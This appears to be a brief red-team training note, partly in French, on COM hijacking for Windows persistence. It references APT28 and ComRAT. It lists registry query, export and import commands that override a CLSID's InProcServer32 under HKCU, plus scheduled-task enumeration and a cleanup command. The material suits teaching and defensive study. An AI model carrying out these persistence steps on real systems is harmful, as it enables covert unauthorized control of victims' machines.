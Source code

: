 
> [!NOTE] APT28, Mosquito, ComRAT et al.

COM (Component Object Model) is a platform-independent, distributed, object-oriented system for creating binary software components


Setup:
Trouver les informations sur les objects de registre COMs

```c
reg query "HKCR\CLSID\{97D47D56-3777-49FB-8E8F-90D7E30E1A1E}"
reg query "HKCU\SOFTWARE\Classes\CLSID\{97D47D56-3777-49FB-8E8F-90D7E30E1A1E}"
reg query "HKLM\SOFTWARE\Classes\CLSID\{97D47D56-3777-49FB-8E8F-90D7E30E1A1E}"
```

Exploiter COM

```c
schtasks /query /xml > tasks.xml
```

A partir de la on regardons 02 choses: la section `Exec` et `Triggers`


```c
reg export "HKLM\SOFTWARE\Classes\CLSID\{97D47D56-3777-49FB-8E8F-90D7E30E1A1E}" c:\rto\PERS\01.USER\tsk-orig.reg /y /reg:64

reg import c:\rto\PERS\01.USER\tsk.reg /reg:64
reg query "HKCU\SOFTWARE\Classes\CLSID\{97D47D56-3777-49FB-8E8F-90D7E30E1A1E}\InProcServer32" /reg:64

```


removal:

```http
reg delete "HKCU\SOFTWARE\Classes\CLSID\{97D47D56-3777-49FB-8E8F-90D7E30E1A1E}" /f /reg:64
```
